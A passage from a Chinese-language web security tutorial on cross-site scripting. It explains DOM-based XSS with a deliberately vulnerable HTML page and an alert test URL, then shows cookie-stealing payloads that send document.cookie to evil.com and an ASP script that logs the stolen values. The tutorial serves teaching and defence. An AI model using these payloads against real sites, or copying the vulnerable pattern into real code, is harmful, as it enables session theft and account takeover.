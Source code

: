 代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做 XSS 的过滤和检查，且存储在数据库中，明显存在存储型 XSS 漏洞。

### DOM XSS

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵 DOM 中的一些对象，例如 URL、location 等。用户在客户端输入的数据如果包含了恶意 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于 DOM 的 XSS 攻击。

HTML 代码：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

将代码保存在 domXSS.html 中，浏览器访问：

```
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可触发 XSS 漏洞。

## XSS 利用方式

### Cookies 窃取

攻击者可以使用以下代码获取客户端的 Cookies 信息：

```html
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```
